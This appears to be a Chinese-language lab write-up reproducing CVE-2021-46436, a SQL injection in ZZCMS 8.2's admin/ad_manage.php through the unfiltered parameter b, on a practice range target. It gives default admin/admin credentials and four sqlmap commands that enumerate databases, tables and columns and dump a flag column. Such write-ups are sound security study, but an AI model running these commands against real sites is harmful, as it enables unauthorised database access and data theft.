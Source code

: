 ```yaml
---
title: CVE-2021-46436【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-46436)

站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.2中在admin/ad_manage.php存在sql注入漏洞

## 2. 漏洞分析

[ZZCMS2021 has a SQL injection vulnerability · Issue #1 · xunyang1/ZZCMS · GitHub](https://github.com/xunyang1/ZZCMS/issues/1)

将参数 b 未做过滤直接给了$b，而 \$b 又直接带入 sql 语句查询了。

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171443492.png)

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171443314.png)

## 3. 漏洞复现

登录：admin/admin，抓包跑 sqlmap

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171543851.png)

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171543640.png)

```bash
python sqlmap.py -r post.txt -p b --dbs --batch --random-agent  --level=5 --risk 3
python sqlmap.py -r post.txt -p b  --batch --random-agent  --level=5 --risk 3 -D zzcms --tables
python sqlmap.py -r post.txt -p b  --batch --random-agent  --level=5 --risk 3 -D zzcms -T flag --columns
python sqlmap.py -r post.txt -p b  --batch --random-agent  --level=5 --risk 3 -D zzcms -T flag -C flag --dump
```

![5.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171544202.png)

![5.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171545929.png)

![6.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171545621.png)

